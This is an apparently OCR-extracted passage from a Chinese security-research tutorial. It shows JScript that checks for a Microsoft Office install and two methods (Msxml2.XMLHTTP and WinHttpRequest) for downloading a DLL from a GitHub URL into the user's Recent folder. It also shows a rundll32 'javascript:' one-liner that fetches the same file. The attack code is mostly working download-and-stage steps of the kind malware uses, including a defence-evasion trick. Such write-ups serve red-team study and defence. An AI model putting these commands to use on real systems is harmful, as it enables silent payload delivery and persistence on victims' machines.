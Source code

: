 对应js代码如下：

```
var FileSys = WScript.CreateObject("Scripting.FileSystemObject");   
if (FileSys.FolderExists("c:\\Program Files\\Microsoft Office"))   
{   
	WScript.Echo("[+] Find Microsoft Office.");   
}
else
{
	WScript.Echo("[!] I can't find Microsoft Office!");    
}
```


**2、从Github下载dll文件并保存至Recent目录**

**方式1:** 使用Msxml2.XMLHTTP

```
var sGet=new ActiveXObject("ADODB.Stream");
var xGet=null;
xGet=new ActiveXObject("Msxml2.XMLHTTP");
xGet.Open("GET","https://raw.githubusercontent.com/3gstudent/test/master/calc.dll",0);
xGet.Send();
sGet.Type=1;
sGet.Open();
sGet.Write(xGet.ResponseBody);
sGet.SaveToFile((WScript.CreateObject("WScript.Shell").SpecialFolders("Recent")+"\\calc.dll"),2);
```


**方式2:** 使用WinHttp.WinHttpRequest.5.1

```
h=new ActiveXObject("WinHttp.WinHttpRequest.5.1");
h.Open("GET","https://raw.githubusercontent.com/3gstudent/test/master/calc.dll",false);
h.Send();
s=new ActiveXObject("ADODB.Stream");
s.Type=1;
s.Open();
s.Write(h.ResponseBody);
x=new ActiveXObject("WScript.Shell").SpecialFolders("Recent")+"\\calc.dll";
s.SaveToFile(x，2);
```


两种js方式均可以，但是在rundll32下使用的话，需要使用方式2，原因如下：

不支持`WScript.CreateObject("WScript.Shell")`，需要换成`new%20ActiveXObject("WScript.Shell")`

cmd执行：

`rundll32.exe javascript:"\..\mshtml.dll,RunHTMLApplication ";xGet=new%20ActiveXObject("Msxml2.XMLHTTP");xGet.Open("GET","https://raw.githubusercontent.com/3gstudent/test/master/calc.dll",0);xGet.Send();`

提示权限不够，如下图
